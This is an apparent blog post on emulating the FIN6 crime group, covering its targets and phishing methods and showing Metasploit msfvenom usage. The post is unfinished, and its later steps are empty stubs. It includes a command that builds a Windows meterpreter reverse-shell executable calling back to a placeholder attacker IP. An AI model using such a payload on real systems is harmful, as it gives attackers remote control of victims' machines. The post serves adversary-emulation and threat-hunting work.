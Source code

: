 ```yaml
---
title: FIN6 Adversary Emulation - Phase 1
date: 2023-08-02 09:23:59 +0800
categories: [Adversary Emulation, FIN6]
tags: [threathunt,metasploit]
---
```


## FIN6 Overview

FIN6 is thought to be a financially motivated cyber-crime group. The group has aggressively targeted and compromised high-volume POS systems in the hospitality and retail sectors since at least 2015. FIN6 has targeted e-commerce sites and multinational organizations. Most of the group’s targets have been located in the United States and Europe, but include companies in Australia, Canada, Spain, India, Kazakhstan, Serbia, and China.

## Step 1 - FIN6 Initial Access

### 1.1 - Phishing: Spearphishing Attachment [**T1566.001**](https://attack.mitre.org/techniques/T1566/001/)[**T1566.003**](https://attack.mitre.org/techniques/T1566/003/)

As FIN6 appears to be monetarily motivated, they take a pragmatic approach toward delivery. FIN6 has employed social engineering ala direct messages on LinkedIn, spear-phished, compromised e-commerce sites, and it has been suggested that they have negotiated or even purchased access to previously compromised networks. 

### 1.1 - C2 Framework

FIN6 has made use of CobaltStrike and Metasploit. For this demonstration, we'll create initial payload using Metasploit’s [**Msfvenom**](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).

_MSFvenom_ is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. The advantages of Msfvenom are:

One single tool
Standardized command line options
Increased speed

Msfvenom has a wide range of options available:

![]({{site.baseurl}}/assets/img/2023-08-02-FIN6 Adversary Emulation - Phase 1/2023-08-02-Metasploit_MsfVenom.png){:width="100%"}


### 1.2 - Generate Initial Access Payload

To generate a payload, there are two flags that you must supply (`-p` and `-f`):

- The `-p` flag: Specifies what payload to generate

To see what payloads are available from Framework, you can do:

```bash
./msfvenom -l payloads
```

Below is the typical syntax to use msfvenom:

```bash
./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
```

## Step 2 - FIN6 Discovery

FIN6

## Step 3 - FIN6 Privilege Escalation

FIN6

## Step 4 - FIN6 Collection and Exfiltration

FIN6

## References

<https://www.offsec.com/metasploit-unleashed/msfvenom/>
